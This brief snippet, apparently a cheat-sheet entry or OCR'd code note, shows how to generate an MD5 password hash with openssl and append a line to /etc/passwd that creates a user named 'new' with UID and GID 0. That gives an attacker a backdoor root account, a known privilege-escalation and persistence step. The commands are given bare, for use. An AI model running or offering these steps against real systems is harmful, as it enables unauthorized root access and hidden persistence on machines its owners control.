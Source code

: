 
`openssl passwd -1 -salt [salt] [password]`

e.g. user: new, salt: new, password 123
`openssl passwd -1 -salt new 123`

you add to /etc/passwd
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
